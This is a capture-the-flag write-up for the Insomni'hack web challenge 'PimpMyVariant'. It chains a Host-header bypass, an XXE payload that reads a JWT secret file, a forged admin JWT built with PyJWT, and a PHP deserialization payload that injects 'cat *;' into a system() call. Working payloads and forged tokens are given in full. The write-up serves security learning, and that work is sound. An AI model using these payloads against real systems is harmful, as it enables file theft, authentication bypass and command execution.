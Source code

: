# PimpMyVariant (WEB)
### Solves : 77
## Introduction

So we fall on a page with covid variants list and apparently there's nothing in the page source code.

![image](https://user-images.githubusercontent.com/88440644/151672386-7af1f7b6-7bba-4889-aaaa-f0c2fed5faf8.png)

First thing we do is check robots.txt page. And we see that there's some endpoints :

![image](https://user-images.githubusercontent.com/88440644/151672246-e2ce96bf-05e0-467b-841b-7231a01b630b.png)

We saw the flag.txt and todo.txt but it's a rabbit hole :

![](https://cdn.discordapp.com/attachments/503921688657002516/937036562334617650/unknown.png)
![](https://cdn.discordapp.com/attachments/503921688657002516/937037397139546132/unknown.png)

So we want to check now the last three pages :
- /readme
- /new
- /log

But if we try to access them we get the following error :

![](https://cdn.discordapp.com/attachments/503921688657002516/937040834656895056/unknown.png)

## Hostname bypass

This step was pretty simple, we could bypass that by setting the **Host** header to `127.0.0.1`. I personally used ModHeader extension.

![image](https://user-images.githubusercontent.com/88440644/151671747-69b78037-d43f-4798-a51c-9c475e1f0299.png)

Now we get the location of the JWT secret, but we need to read this so let's find out how to do this.

## XXE Injection

By looking on the **/new** endpoint we see that we can submit a variant name that'll be add to the variants list :

![image](https://user-images.githubusercontent.com/88440644/151672156-a68f01e1-4d97-42d8-afae-2327666c2120.png)
![image](https://user-images.githubusercontent.com/88440644/151672171-a2df7ce3-646d-4b12-95a4-de99f455723d.png)

And if we look at the request made when we add a variant name we see that we're dealing with an XML request :

![image](https://user-images.githubusercontent.com/88440644/151672741-c0e427ab-21eb-42a7-a3a0-ee2777805e4d.png)

When a variant is added, a JWT token is generated that contains this variant name :

![image](https://user-images.githubusercontent.com/88440644/151673568-7b3d49bc-7354-4fb9-9a6c-44d1a26e5f45.png)

But now we need to exploit this XML request, and for that we want to exfiltrate the JWT secret file to be able to sign our own JWT token. To do this we'll use this XML payload that will put in the variant name the output of the file `jwt.secret.txt`:

```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///www/jwt.secret.txt" >]>
<root>
  <name>
    &xxe;
  </name>
</root>
```

![image](https://user-images.githubusercontent.com/88440644/151672641-56a35f03-bf13-4737-9f6a-fbf32f1bce2f.png)

Now we can see that the JWT secret is in the variants list and in the JWT token :

  - 54b163783c46881f1fe7ee05f90334aa

![image](https://user-images.githubusercontent.com/88440644/151675675-e27843d0-4a57-46bd-8b55-ae8babbdbdd7.png)

## PHP Object Injection

So we can sign a token, and if you saw there was a serialized object in the JWT token with the parameter **isAdmin** set to 0 (false). Our goal is to modify this value to 1 (true) to be able to access **/log** endpoint because it's only accessible to *admin*. So let's forge a JWT token with **isAdmin** sets to **0** thanks to the python PyJWT library :

```python
import jwt
token = jwt.encode({
  "variants": [
    "Alpha"
  ],
  "settings": "a:1:{i:0;O:4:\"User\":3:{s:4:\"name\";s:4:\"Anon\";s:7:\"isAdmin\";b:1;s:2:\"id\";s:40:\"42357db6af31f5c6f4ce007059799a9a330f7c9f\";}}",
  "exp": 1643480307
}, "54b163783c46881f1fe7ee05f90334aa", algorithm="HS256")
print(token)
```
Output : 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6MTp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiNDIzNTdkYjZhZjMxZjVjNmY0Y2UwMDcwNTk3OTlhOWEzMzBmN2M5ZlwiO319IiwiZXhwIjoxNjQzNDgwMzA3fQ.3-nXabEL-8rS0LM-AlOAevCIx5UshlEeVeaFtyTuUTQ
```

Now we can try to access to **/log** and we get a logging error:

![image](https://user-images.githubusercontent.com/88440644/151676112-f87bee76-c0a1-4e25-8ec2-712bf9daa7e7.png)

So the error is the following :

```php
[2021-12-25 02:12:01] Fatal error: Uncaught Error: Bad system command call from UpdateLogViewer::read() from global scope in /www/log.php:36
Stack trace:
#0 {main}
  thrown in /www/log.php on line 37
#0 {UpdateLogViewer::read}
  thrown in /www/UpdateLogViewer.inc on line 26
```

We can see another interesting file which is `/www/UpdateLogViewer.inc` and we can download it directly from the website at http://pimpmyvariant.insomnihack.ch/UpdateLogViewer.inc :

```php
<?php

class UpdateLogViewer
{
	public string $packgeName;
	public string $logCmdReader;
	private static ?UpdateLogViewer $singleton = null;
	
	private function __construct(string $packgeName)
	{
		$this->packgeName = $packgeName;
		$this->logCmdReader = 'cat';
	}
	
	public static function instance() : UpdateLogViewer
	{
		if( !isset(self::$singleton) || self::$singleton === null ){
			$c = __CLASS__;
			self::$singleton = new $c("$c");
		}
		return self::$singleton;
	}
	
	public static function read():string
	{
		return system(self::logFile());
	}
	
	public static function logFile():string
	{
		return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
	}
	
    public function __wakeup()// serialize
    {
    	self::$singleton = $this; 
    }
};
```

So now just by seeing the `system()` call in `read()` function we can guess that it's a PHP deserialization vulnerability, by default the code will `cat` the content of `packgeName` log file but these are values we can control in the deserialization process.

So to achieve our exploit we're going to append our desire object into the array deserialized. This can be possible because the class UpdateLogViewer is a singleton, so when we create our object with desired parameters, `UpdateLogViewer::instance()` is gonna grab our class containing our parameters.

```php
public static function logFile():string
{
  return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
}
```
The returned value is executed by `system()` so we can imagine the command executed behind to display the content of the current directory :

```php
system('cat *; /var/log/UpdateLogViewer_x.log');
```

So we craft our serialized object like that :

```php
a:2:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"bec9b80a3ed0ee3f0463d68bdef1128de828acb5";}i:1;O:15:"UpdateLogViewer":2:{s:10:"packgeName";s:1:"x";s:12:"logCmdReader";s:6:"cat *;";}}
```

We forge another token with that data and we get a new token :
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6Mjp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiYmVjOWI4MGEzZWQwZWUzZjA0NjNkNjhiZGVmMTEyOGRlODI4YWNiNVwiO31pOjE7TzoxNTpcIlVwZGF0ZUxvZ1ZpZXdlclwiOjI6e3M6MTA6XCJwYWNrZ2VOYW1lXCI7czoxOlwieFwiO3M6MTI6XCJsb2dDbWRSZWFkZXJcIjtzOjY6XCJjYXQgKjtcIjt9fSIsImV4cCI6MTY0MzQ4MDMwN30.aDkxHvE53Wmy2BawAGWWrg868TMK1Sr_73ZL6cLbYLM
```

Now if we refresh the **/log** page we can get the flag that is displayed : `INS{P!mpmYV4rianThat's1flag}`

*Hope you enjoy, have a very good day !*
